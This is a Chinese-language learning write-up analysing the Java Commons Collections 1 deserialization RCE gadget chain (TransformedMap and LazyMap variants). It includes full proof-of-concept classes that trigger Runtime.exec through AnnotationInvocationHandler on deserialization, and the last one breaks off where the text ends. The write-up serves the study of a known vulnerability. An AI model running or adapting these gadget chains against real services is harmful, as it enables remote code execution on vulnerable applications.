前言
从本篇开始，正式进入反序列化 RCE 利用链分析的大门，始终是逃不过。大手子们的挖掘真的拍案叫绝，精彩绝伦。学徒本徒，这篇笔记应该是事无巨细的了。
JDK 源码环境准备
- https://www.oracle.com/java/technologies/javase/javase7-archive-downloads.html
- JDK 的版本号解惑
- openJDK 各个版本的源码下载，方便查看 native 修饰的方法
调试反序列化利用链会对 jdk 的版本、Apache Commons Collections 的版本有要求。
如何在 IDEA 里面查找 jdk 源码呢？比如说下面这种，一般 Find Usages 是进不到里面去的，因为是反编译 .class 文件得出来的源码。
D:\Java\jdk1.8.0_20\jre\lib\rt.jar!\sun\reflect\annotation\AnnotationInvocationHandler.class

所以我们要将源码加进去。【Oracle JDK 和 Open JDK 的版本不一定对的上。】
https://www.oracle.com/java/technologies/downloads/archive/
找到 8u65 --> jdk-8u65-windows-x64.exe 可以用虚拟机安装把 JDK 提取出来。
- https://openjdk.org/projects/jdk/--> Mercurial


本次我使用的是 8u20 的 JDK 版本。
- 将 "D:\Java\jdk-f5d77a430a29（1.8.0_20 openJDK 源码）\jdk-f5d77a430a29\src\share\classes\" 中的
sun文件夹拷贝。 - 将 "D:\Java\jdk1.8.0_20\src.zip" 解压
- 将 1 中的 sun 文件夹拷贝到解压出来的 sun 文件夹中
在 idea 中添加 sun 文件夹。【File --> Project Settings --> SDKs --> Sourcepath】

可以看到 AnnotationInvocationHandler 已经由
.class 文件变成了.java 文件。
反序列链原理
反序列化漏洞就是：
- Web 应用反序序列化用户输入（信任/不受信任），即可控的序列化点。
- 存在反序列化利用链 --> RCE
This is what serialized Java objects look like, they can be identified by this header. They always begin with “ac ed 00 05…” and when that is base64 encoded it comes out as “rO0…”. Keep an eye open for those two strings.
lsof -i -P | grep java | grep LISTEN
接收任意对象执行 readObject 方法进行反序列化 --> 重写的 readObject 方法，里面存在接收任意对象作为参数的方法（可序列化 -- 集合类型/Object/Map） --> ...... --> 调用危险方法（不同类的同名函数/任意方法调用（反射/动态加载字节码））。【A.readObject.invoke/ --> B.f】
调试分析
初探
根据 CC1 链我们知道和 Transformer 有关，查看一下 org.apache.commons.collections.Transformer 的实现类一共有 16 个。【以此反推】
从 CC1 出发直接看 InvokerTransformer 类。

普通反射 Runtime.exec 执行命令
Runtime run = Runtime.getRuntime() 直接获取， Runtime 类不能序列化。
java.lang.Runtime 没有继承 Serializable 类。 -- 用反射创建 Runtime 对象即可。
/**
* 普通的 Runtime.exec 反射
* Runtime.getRuntime().exec("calc");
* 类全名获取类的 Class 对象 【类的原型（Class 类可以理解为类的类，每个类都有一个对应的 Class 对象）】
* getMethod：方法名，方法参数类型 【无参方法则方法参数类型为 null】
* invoke：获取到的类的实例化对象，方法的参数 【如果是静态方法则为 null，无参 null】因为静态方法属于类，不属于类对象，所以对象为 null。
*/
Class clazz = Class.forName("java.lang.Runtime");
Method getruntimeMethod = clazz.getMethod("getRuntime", null);
Object runtimeObj = getruntimeMethod.invoke(null, null);
Method method = clazz.getMethod("exec", String.class);
method.invoke(runtimeObj, "calc");
InvokeTransformer 反射执行命令
org.apache.commons.collections.functors.InvokerTransformer 看一下其中实现的 transform 方法。【危险方法 --> RCE】
// 接收任意对象 Object 作为输入
public Object transform(Object input) {
if (input == null) {
return null;
}
try {
// 获取输入的任意类的 Class 对象，反射执行对象的任意方法
Class cls = input.getClass();
Method method = cls.getMethod(iMethodName, iParamTypes);
return method.invoke(input, iArgs);
} catch (NoSuchMethodException ex) {
throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' does not exist");
} catch (IllegalAccessException ex) {
throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
} catch (InvocationTargetException ex) {
throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' threw an exception", ex);
}
}
这个 InvokeTransformer 的 transform 方法其实就是一个用反射实现的执行任意方法的方法。【危险方法】
接着看看 InvokerTransformer 的构造函数。org.apache.commons.collections.functors.InvokerTransformer#InvokerTransformer
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
super();
iMethodName = methodName;
iParamTypes = paramTypes;
iArgs = args;
}
// 后面反射执行方法的参数都是通过这个构造函数获取的，可以看到需要的参数依次为，需要执行的方法名 methodName， 所需执行方法的参数的类型 paramTypes，需要执行的方法的参数值 args。
那么将反射执行 java.lang.Runtime#exec(java.lang.String) 改成 InvokerTransformer 反射执行的形式就如下。
- 创建 InvokeTransformer 的实例对象，调用 transform 方法。
- 方法名、参数类型、参数值都通过构造函数获取。
- 所需对象通过 transform 方法接收。
/**
* 改写成 InvokeTransformer 的版本：
* 1. 我们要执行 Runtime 对象的 exec 方法。
* 2. 那么我们就要给 transform 方法传进去一个 Runtime 对象，再通过反射执行 exec 方法。
* 【注】：暂时不考虑序列化
*/
InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[] {String.class}, new Object[]{"calc"});
invokerTransformer.transform(Runtime.getRuntime());
----------
能不能直接反射执行 getRuntime 方法进行实例化创建对象呢？这是来自反射没学好的我一瞬间的想法 orz。
/**
* 答案是不能的。
* - Runtime 类直接调用它的静态方法 getRuntime。
* - Runtime 类不可序列化，其次 Runtime.class 获取的是 Runtime 类的 Class 实例对象。 Class 类并没有 getRuntime 方法。
* - Exception in thread "main" org.apache.commons.collections.FunctorException: InvokerTransformer: The method 'getRuntime' on 'class java.lang.Class' does not exist
* at org.apache.commons.collections.functors.InvokerTransformer.transform(InvokerTransformer.java:128)
*/
InvokerTransformer getRuntimeInvokeTransformer = new InvokerTransformer("getRuntime", new Class[]{null}, new Object[]{null});
Object runtimeObj = getRuntimeInvokeTransformer.transform(Runtime.class);
----------
// 将 Runtime.getRumtime() 也要改成 InvokerTransformer 的反射形式
/**
* 改写成 InvokeTransformer 的版本：
* 1. 我们要执行 Runtime 对象的 exec 方法。
* 2. 那么我们就要给 transform 方法传进去一个 Runtime 对象，通过反射获取 Runtime 对象。
* 3. 再通过反射执行 exec 方法。
*/
// 反射获取 Runtime 实例化对象。clazz 对象的 getMethod 方法，反射调用 getMethod 方法。
//Class clazz = Class.forName("java.lang.Runtime");
//Method getruntimeMethod = clazz.getMethod("getRuntime", null);
InvokerTransformer getMethodInvokerTransformer = new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null});
Method getRuntimeMethod = (Method) getMethodInvokerTransformer.transform(Runtime.class);// getMethod 方法是 Class 实例对象的方法，所以传进去 Class 实例对象。
// Object runtimeObj = getruntimeMethod.invoke(null, null);
InvokerTransformer invokeInvokerTransformer = new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class}, new Object[] {null, null});
Object runtimeObj = invokeInvokerTransformer.transform(getRuntimeMethod); // invoke 方法是 Method 实例对象的方法，所以传进去 Method 实例对象
//Method method = clazz.getMethod("exec", String.class);
//method.invoke(runtimeObj, "calc");
InvokerTransformer execInvokerTransformer = new InvokerTransformer("exec", new Class[] {String.class}, new Object[]{"calc"});
execInvokerTransformer.transform(runtimeObj);
new InvokerTransformer("需要调用的方法名", new Class[] {方法的参数类型}, new Object[]{方法的参数值}).transform(是哪个类的实例对象【Object】的方法);【注意】可变参数类型即对应为数组类型，如 ：
Class<?>... parameterTypes等价于Class [].class
最终是一个套娃的形式，里层的对象给外层使用，作为上一个 transform 方法的 Object 参数。
// 反射获取 Runtime 实例化对象。clazz 对象的 getMethod 方法，反射调用 getMethod 方法实例化 Runtime 对象。【注意】可变参数参数类型即对应的数组。 // 在反射执行 exec 方法。【后一个作为前一个的输入对象】 new InvokerTransformer("exec", new Class[] {String.class}, new Object[]{"calc"}) .transform(new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class}, new Object[] {null, null}) .transform(new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}) .transform(Runtime.class))); // 从下往上传
从上两段代码可以看出，前一个 InvokeTransformer 创建出来的对象供下一个 InvokerTransformer.transform 作为对象输入。所以先根据 ysoserial.payloads.CommonsCollections1 优化一下代码，创建 一个 ChainedTransformer 和 Transformer 数组。
org.apache.commons.collections.functors.ChainedTransformer
/**
* Constructor that performs no validation.
* Use <code>getInstance</code> if you want that.
*
* @param transformers the transformers to chain, not copied, no nulls
*/
public ChainedTransformer(Transformer[] transformers) {
super();
iTransformers = transformers;
}
/**
* Transforms the input to result via each decorated transformer
*
* @param object the input object passed to the first transformer
* @return the transformed result
*/
public Object transform(Object object) {
for (int i = 0; i < iTransformers.length; i++) {
object = iTransformers[i].transform(object);
}
return object;
}
就可以改成
Transformer [] transformers = new Transformer[] {
new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
chainedTransformer.transform(Runtime.class);
----------> 比较清晰，解释一下：
chainedTransformer.transform(Runtime.class); // 控制第一个输入就好了
==> object = iTransformers[i].transform(object); 那么第一个就是
==> iTransformers[0].transform(Runtime.class) 即
==> new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}).transform(Runtime.class)
并且赋值给了 object，那么第二个就是
==> iTransformers[1].transform(object); 以此类推...

那么现在问题变成了有哪些对象调用 org.apache.commons.collections.functors.InvokerTransformer#transform 这个危险方法呢？
下一步就是找到使用 InvokerTransformer#transform 方法的地方，通过 Find Usages 可以看到有 21 处调用。

除去自己调用自己的，主要分布在 commons-collections:commons-collections:3.1 和 commons-beanutils:commons-beanutils:1.9.2 这两个包中，我们逐一进行筛查。
正所谓前人栽树，按照 CC1 链的提示，我们把目光锁定在 map package 中的 LazyMap 类和 TransformedMap 类上。

Ysoserial CC1 分析
TransformedMap 利用链
一共有 3 个方法调用了 transformer 方法，分别是：transformKey、transformValue、checkSetValue 。
protected Object transformKey(Object object) {
if (keyTransformer == null) {
return object;
}
return keyTransformer.transform(object);
}
-----------
protected Object transformValue(Object object) {
if (valueTransformer == null) {
return object;
}
return valueTransformer.transform(object);
}
-----------
protected Object checkSetValue(Object value) {
return valueTransformer.transform(value);
}
以 checkSetValue 为入口点：
是实现了接口，注释写的很清楚了。
org.apache.commons.collections.map.AbstractInputCheckedMapDecorator#checkSetValue/** * Hook method called when a value is being set using <code>setValue</code>. * <p> * An implementation may validate the value and throw an exception * or it may transform the value into another object. * <p> * This implementation returns the input value. * * @param value the value to check * @throws UnsupportedOperationException if the map may not be changed by setValue * @throws IllegalArgumentException if the specified value is invalid * @throws ClassCastException if the class of the specified value is invalid * @throws NullPointerException if the specified value is null and nulls are invalid */ protected abstract Object checkSetValue(Object value);valueTransformer是什么值。通过构造函数赋值的，并且
TransformerMap的这个构造函数是 protected 修饰的，通过静态方法 decorate 调用。- 再通过 Find Usages 查看 checkSetValue 的调用情况。
protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
super(map);
this.keyTransformer = keyTransformer;
this.valueTransformer = valueTransformer;
}
// 继续在本类中寻找是哪个函数调用了构造函数，答案是静态的 decorate 方法。用来装饰一个 map。一定要多看看源码和注释。
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
return new TransformedMap(map, keyTransformer, valueTransformer);
}
再继续看看调用了 checkSetValue 的地方， 仅有一处 org.apache.commons.collections.map.AbstractInputCheckedMapDecorator.MapEntry#setValue

/**
* Implementation of a map entry that checks additions via setValue.
*/
static class MapEntry extends AbstractMapEntryDecorator {
/** The parent map */
private final AbstractInputCheckedMapDecorator parent;
protected MapEntry(Map.Entry entry, AbstractInputCheckedMapDecorator parent) {
super(entry);
this.parent = parent;
}
public Object setValue(Object value) {
value = parent.checkSetValue(value);
return entry.setValue(value);
}
}
Java 中遍历 map 的其中一个方法，https://www.baeldung.com/java-map-entry。
As Map.Entry stores both the key and value together in one class, we get them both in a single operation .
我们先尝试下通过 MapEntry 遍历来 setValue 能不能走到 checkSetValue，进而调用危险方法 transform。https://docs.oracle.com/javase/8/docs/api/java/util/Map.Entry.html
MapEntry 遍历，通过 setValue 修改测试
HashMap<Object, Object> hashMap = new HashMap<Object, Object>();
hashMap.put("zhaocai", "mao");
hashMap.put("ff", "xn");
for (Map.Entry entry : hashMap.entrySet()) {
entry.setValue("zhu");
}
System.out.println("key zhaocai value is: " + hashMap.get("zhaocai"));
System.out.println("key ff value is: " + hashMap.get("ff"));
----------
key zhaocai value is: zhu
key ff value is: zhu
Process finished with exit code 0
MapEntry 遍历，通过 setValue 利用测试
InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[] {String.class}, new Object[]{"calc"});
//invokerTransformer.transform(Runtime.getRuntime());
HashMap<Object, Object> hashMap = new HashMap<Object, Object>();
hashMap.put("zhaocai", "mao");
Map<Object, Object> transformedMap = TransformedMap.decorate(hashMap, null, invokerTransformer);
for (Map.Entry entry : transformedMap.entrySet()) {
entry.setValue(Runtime.getRuntime()); // 注意这里传进去的是 Runtime 对象
}
System.out.println("key zhaocai value is: " + hashMap.get("zhaocai"));
---------- 成功利用
key zhaocai value is: java.lang.ProcessImpl@108c4c35
Process finished with exit code 0
Map 之间的继承关系
1. java.util.Map
2. public abstract class AbstractMapDecorator implements Map
3. abstract class AbstractInputCheckedMapDecorator extends AbstractMapDecorator
4. public class TransformedMap extends AbstractInputCheckedMapDecorator implements Serializable
到这里我们先总结一下思路：创建一个非空的 map 【这样调用为空的话就没法 setValue 了】--> 接着通过 TransformedMap.decorate 方法来装饰这个 map，通过 TransformedMap 的构造函数将 valueTransformer 修改为 InvokerTransformer 的对象 invokerTransformer， --> 最后通过 Map.Entry 遍历，用 setValue 来修改非空 map 的 value 值为想执行方法的对象就可以执行这一部分的利用链。
org.apache.commons.collections.map.AbstractInputCheckedMapDecorator.MapEntry#setValue-->
org.apache.commons.collections.map.TransformedMap#checkSetValue-->
valueTransformer.transform(value)-- 这里我们需要执行 exec 方法， value 就需要为 Runtime 对象。
其实这一长串的构造就是为了连通
readObject和InvokeTransformer#transform
那么最后我们就继续看看有没有类的 readObject 方法直接调用（或者 invoke ）了 setValue 方法，没有的话可能需要多走一层甚至几层，直到反序列化的入口 readObject 方法。还是 Find Usages + 前人栽树大法直奔主题。【毕竟是分析学习，而不是利用链挖掘嘛】sun.reflect.annotation.AnnotationInvocationHandler#readObject

sun.reflect.annotation.AnnotationInvocationHandler 这个类是个默认修饰类型。
- default (即默认，什么也不写）: 在同一包内可见【所以利用的时候要用反射获取】，不使用任何修饰符。使用对象：类、接口、变量、方法。https://www.runoob.com/java/java-modifier-types.html
class AnnotationInvocationHandler implements InvocationHandler, Serializable{}
AnnotationInvocationHandler 有一个唯一的构造函数
// 两个参数分别是注解类型和 Map 类型
AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {
this.type = type;
this.memberValues = memberValues;
}
sun.reflect.annotation.AnnotationInvocationHandler#readObject 方法
private void readObject(java.io.ObjectInputStream s)
throws java.io.IOException, ClassNotFoundException {
s.defaultReadObject();
// Check to make sure that types have not evolved incompatibly
AnnotationType annotationType = null;
try {
annotationType = AnnotationType.getInstance(type);
} catch(IllegalArgumentException e) {
// Class is no longer an annotation type; time to punch out
throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
}
Map<String, Class<?>> memberTypes = annotationType.memberTypes();
// If there are annotation members without values, that
// situation is handled by the invoke method.
for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
String name = memberValue.getKey();
Class<?> memberType = memberTypes.get(name);
if (memberType != null) { // i.e. member still exists
Object value = memberValue.getValue();
if (!(memberType.isInstance(value) ||
value instanceof ExceptionProxy)) {
memberValue.setValue(
new AnnotationTypeMismatchExceptionProxy(
value.getClass() + "[" + value + "]").setMember(
annotationType.members().get(name)));
}
}
}
}
通过反射创建 AnnotationInvocationHandler 对象，并调用 readObject 方法。
// 通过 InvokerTransformer 反射调用 exec 方法
InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[] {String.class}, new Object[]{"calc"});
//invokerTransformer.transform(Runtime.getRuntime());
// 创建一个 Map 并经过 TransformedMap.decorate 装饰
HashMap<Object, Object> hashMap = new HashMap<Object, Object>();
hashMap.put("zhaocai", "mao");
Map<Object, Object> transformedMap = TransformedMap.decorate(hashMap, null, invokerTransformer);
// 反射获取 AnnotationInvocationHandler 实例对象，并进行反序列化
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler"); // 获取 Class 对象
// 这里注意 AnnotationInvocationHandler 的构造方法是 default 修饰的，不能用 getConstructor 来获取。
Constructor annoInvHdlConstructor = clazz.getDeclaredConstructor(Class.class, Map.class); // 构造函数的参数类型
annoInvHdlConstructor.setAccessible(true);
Object annoInvHdlObj = annoInvHdlConstructor.newInstance(Override.class, transformedMap); // 构造函数的参数值
// 序列化、反序列化
Serializer.serialized(annoInvHdlObj, "/src/test/resources/cc1.ser");
Deserializer.deserialized("/src/test/resources/cc1.ser");
运行以上代码只是生成了序列化文件，反序列化并没有进行任何操作。

通过 debug 可以看到 if 并不满足条件，并且 setValue 的值我们应该传入 Runtime 对象。
满足 if 判断条件【Java 注解】
// 获取注解的 memberTypes，本次传进去的 Override 注解的 memberTypes 为空， Map<String, Class<?>> memberTypes = annotationType.memberTypes(); Class<?> memberType = memberTypes.get(name); ---------- // java.lang.annotation.Target // Target 注解存在属性 value ElementType[] value();



SuppressWarnings、Target、Repeatable 和 Retention。
修改后成功进入 if。

- Runtime 类不可序列化问题 -- 【普通反射 --> InvokerTransformer.transform 反射】获取 Runtime 对象，前面已经解决。
执行，报错。发现还剩最后一个问题，
entry.setValue(Runtime.getRuntime());的值需要为 Runtime.getRuntime() 实例化对象，可是这里 setValue 的值并不可控。
protected Object checkSetValue(Object value) { return valueTransformer.transform(value); } 现在是 ---------> 怎么使 value == Runtime.class ? chainedTransformer.transform(Runtime.class);Exception in thread "main" org.apache.commons.collections.FunctorException: InvokerTransformer: The method 'getMethod' on 'class sun.reflect.annotation.AnnotationTypeMismatchExceptionProxy' does not exist【怎么在反序列化的时候传进去一个 Runtime 对象呢？】
这里我们发现了 ConstantTransformer 这个类，它的 transform 方法永远返回一个固定值，一切都刚刚好。
/** * Constructor that performs no validation. * Use <code>getInstance</code> if you want that. * * @param constantToReturn the constant to return each time */ public ConstantTransformer(Object constantToReturn) { super(); iConstant = constantToReturn; } /** * Transforms the input by ignoring it and returning the stored constant instead. * * @param input the input object which is ignored * @return the stored constant */ public Object transform(Object input) { return iConstant; }那么我们只要修改
iConstant为Runtime.class即可。【该类的构造函数】Transformer [] transformers = new Transformer[]{ new ConstantTransformer(Runtime.class), ... }; ----------> 经过 TransformedMap.decorate 装饰后 valueTransformer.transform(value) 变成了 chainedTransformer.transform(value) ----------> 后面在 AnnotationInvocationHandler 类进行反序列 readObject 并满足一定条件的时候会调用 setValue 方法，在 setValue 的时候会进行 checkSetValue 调用 ----------> 触发到 chainedTransformer.transform(value) 然后就会遍历 Transformer 数组调用对应的 transform 方法 ----------> 对应 Transformer 数组 iTransformers[i].transform(object); ----------> 数组的第一个元素 即 chainedTransformer[0].transform(Runtime.class) 就是 constantTransformer.transform() 并且在 new ConstantTransformer 的时候已将 iConstant 的值设置为了 Runtime.class ---------->不管传进去的 value 是什么 constantTransformer.transform() 方法恒定返回 iConstant所以这里是
AnnotationTypeMismatchExceptionProxy对象并不影响。如图：


所以最终 poc 为
// 套娃了三次，搞成一个数组。通过 ChainedTransformer 遍历调用对应的 transform 方法。 Transformer [] transformers = new Transformer[]{ new ConstantTransformer(Runtime.class), new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class}, new Object[] {"getRuntime", null}), new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}), new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}) }; ChainedTransformer chainedTransformer = new ChainedTransformer(transformers); //chainedTransformer.transform(Runtime.class); // 这部分代码就是为了反序列化的时候触发 chainedTransformer.transform() 方法做准备。先装进去 Map 里面，值也改好了，但是还没触发到对应的 transform 方法。 HashMap<Object, Object> hashMap = new HashMap<Object, Object>(); hashMap.put("value", "mao"); // 通过 decorate 修改 valueTransformer 为可利用的类对象。如 valueTransformer.transform(value); --> invokerTransformer.transform(); Map<String, Object> transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer); // // 通过 MapEntry#setValue 触发： setValue --> checkSetValue --> valueTransformer.transform(value) 【这里的 value 值就是 setValue 的值】 // for (Map.Entry entry : transformedMap.entrySet()) { // entry.setValue(Runtime.class); // } // System.out.println("The key named value is: " + hashMap.get("value")); // 触发 transform 方法，如 chainedTransformer.transform(Runtime.class); // 反序列化的触发类：readObject 【满足一定条件】 --> setValue --> checkSetValue --> valueTransformer.transform(value) 即 chainedTransformer.transform(Runtime.class) 完整的利用链 Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler"); // 获取 Class 对象 // 这里注意 AnnotationInvocationHandler 的构造方法是 default 修饰的，不能用 getConstructor 来获取。 Constructor annoInvHdlConstructor = clazz.getDeclaredConstructor(Class.class, Map.class); // 构造函数的参数类型 annoInvHdlConstructor.setAccessible(true); Object annoInvHdlObj = annoInvHdlConstructor.newInstance(Target.class, transformedMap); // 构造函数的参数值 // 序列化、反序列化 Serializer.serialized(annoInvHdlObj, "/src/test/resources/cc1.ser"); Deserializer.deserialized("/src/test/resources/cc1.ser");
LazyMap 利用链

LazyMap 会更加优雅美妙一点，用到的知识也会更多一点，再学习一波 Java 安全漫谈 amazing...
// 生成序列化流
ByteArrayOutputStream barr = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(barr);
oos.writeObject(handler);
oos.close();
System.out.println(barr);
// 反序列化
ObjectInputStream ois = new ObjectInputStream(new
ByteArrayInputStream(barr.toByteArray()));
Object o = (Object)ois.readObject();
其实也差不多，我们需要在反序列化的时候通过 LazyMap 走到 InvokeTransformer.transform 方法。
LazyMap 的装饰（构造）函数 decorate



那么现在问题变成怎么在 readObject 的时候调用 LazyMap 的 get 方法呢？ org.apache.commons.collections.map.LazyMap#get
sun.reflect.annotation.AnnotationInvocationHandler#readObject 中并没有直接调用 Map 的 get 方法。所以 ysoserial 找到了另一条路，AnnotationInvocationHandler 类的 invoke 方法有调用到 get：
sun.reflect.annotation.AnnotationInvocationHandler#invoke
public Object invoke(Object proxy, Method method, Object[] args) {
String member = method.getName(); // 这里获取 member 值
Class<?>[] paramTypes = method.getParameterTypes();
// Handle Object and Annotation methods
if (member.equals("equals") && paramTypes.length == 1 &&
paramTypes[0] == Object.class)
return equalsImpl(args[0]);
assert paramTypes.length == 0;
if (member.equals("toString"))
return toStringImpl();
if (member.equals("hashCode"))
return hashCodeImpl();
if (member.equals("annotationType"))
return type;
// Handle annotation member accessors
Object result = memberValues.get(member); // 这里，不同的 JDK 版本这个 invoke 函数可能会小有差异。并且 memberValues 就是 AnnotationInvocationHandler 构造函数传进去的 Map 对象
if (result == null)
throw new IncompleteAnnotationException(type, member);
if (result instanceof ExceptionProxy)
throw ((ExceptionProxy) result).generateException();
if (result.getClass().isArray() && Array.getLength(result) != 0)
result = cloneArray(result);
return result;
}
现在问题又变成了怎么在反序列化的时候调用到 AnnotationInvocationHandler#invoke 呢？ysoserial 的作者想到的是利用 Java 的对象代理。【我还能说什么呢？这些人也太猛了吧。。。】什么是 Java 代理对象？P 牛写的很详细易懂了，这里我直接抄吧。
作为一门静态语言，如果想劫持一个对象内部的方法调用，实现类似 PHP 的魔术方法 __call ，我们需要用到
java.reflect.Proxy：Proxy.newProxyInstance 的第一个参数是 ClassLoader，我们用默认的即可；第二个参数是我们需要代理的对象集合；第三个参数是一个实现了InvocationHandler接口的对象，里面包含了具体代理的逻辑。
java.lang.reflect.Proxy#newProxyInstance
public static Object newProxyInstance(
ClassLoader loader,
Class<?>[] interfaces,
InvocationHandler h
) throws IllegalArgumentException {}
ExampleInvocationHandler
package zha0cai;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.util.Map;
public class ExampleInvocationHandler implements InvocationHandler {
protected Map map;
// 构造函数
public ExampleInvocationHandler(Map map) {
this.map = map;
}
// ExampleInvocationHandler 类实现了 invoke 方法，作用是在监控到调用的方法名是 get 的时候，返回一个特殊字符串 Hacked Object
// 代理模式的主要作用是扩展目标对象的功能，比如说在目标对象的某个方法执行前后你可以增加一些自定义的操作。
@Override
public Object invoke(Object proxy, Method method, Object[] args) throws Throwable { // 重写实现的 invoke 方法
if (0 == method.getName().compareTo("get")) {
System.out.println("Hook method: " + method.getName());
return "Hacked Object";
}
return method.invoke(this.map, args);
}
}
ProxyTest ，我们可以发现，虽然我向 Map 放入的 hello 值为 world，但我们获取到的结果却是 "Hacked Object"
package zha0cai;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;
public class ProxyTest {
public static void main(String[] args) throws Exception {
InvocationHandler handler = new ExampleInvocationHandler(new HashMap());
Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);
proxyMap.put("hello", "world");
System.out.println();
String result = (String) proxyMap.get("hello");
System.out.println(result);
}
}
==========
D:\Java\jdk1.8.0_20\bin\java.exe ...
Hook method: get
Hacked Object
Process finished with exit code 0
我们回看
sun.reflect.annotation.AnnotationInvocationHandler，会发现实际上这个类实际就 是一个InvocationHandler，我们如果将这个对象用 Proxy 进行代理，那么在readObject的时候，只要调用任意方法，就会进入到 AnnotationInvocationHandler#invoke 方法中（这是动态代理类的一个特性），十分美妙。
sun.reflect.annotation.AnnotationInvocationHandler#invoke
public Object invoke(Object proxy, Method method, Object[] args) {
String member = method.getName();
Class<?>[] paramTypes = method.getParameterTypes();
// Handle Object and Annotation methods
if (member.equals("equals") && paramTypes.length == 1 &&
paramTypes[0] == Object.class)
return equalsImpl(args[0]);
assert paramTypes.length == 0;
if (member.equals("toString"))
return toStringImpl();
if (member.equals("hashCode"))
return hashCodeImpl();
if (member.equals("annotationType"))
return type;
// Handle annotation member accessors
Object result = memberValues.get(member); // 触发点所在位置，将 memberValues 为 LazyMap
if (result == null)
throw new IncompleteAnnotationException(type, member);
if (result instanceof ExceptionProxy)
throw ((ExceptionProxy) result).generateException();
if (result.getClass().isArray() && Array.getLength(result) != 0)
result = cloneArray(result);
return result;
}
yso 中的 cc1 链就是利用 AnnotationInvocationHandler.invoke() 方法可以调用到 LazyMap 的 get() 方法【动态代理】。这个 get 方法中调用了 transform 方法，只要我们将 this.factory 设置为 ChainedTransformer ，然后看看 AnnotationInvocationHandler.invoke() 所以让其 memberValues 为 LazyMap 即可。
可以看看反序列化时都是些什么参数~【ConstantTransformer 是真的牛】


POC & EXP

TransformedMap
package zha0cai;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;
public class Test {
public static void main(String[] args) throws Exception {
// 通过构造函数初始化值
Transformer[] transformers = new Transformer[]{
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class}, new Object[] {"getRuntime", null}),
new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};
// 用于遍历触发对应的 transform 方法，控制数组第一个参数即可
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
// 被装饰的非空 map，Since:HashMap, TreeMap, Hashtable...
HashMap hashMap = new HashMap();
hashMap.put("value", "zhaocai");
// 装饰，修改 valueTransformer 的值，用于调用对应类的 transform 方法
Map transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer);
// 反序列化触发类
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);
Object annoInvHdlObj = constructor.newInstance(Target.class, transformedMap);
// 序列化
ByteArrayOutputStream baos = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(baos);
oos.writeObject(annoInvHdlObj);
oos.flush();
oos.close();
// 反序列化
ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
ObjectInputStream ois = new ObjectInputStream(bais);
Object obj = (Object) ois.readObject();
}
}
LazyMap
package zha0cai;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;
public class Test {
public static void main(String[] args) throws Exception {
// 通过构造函数初始化值
Transformer[] transformers = new Transformer[]{
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class}, new Object[] {"getRuntime", null}),
new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};
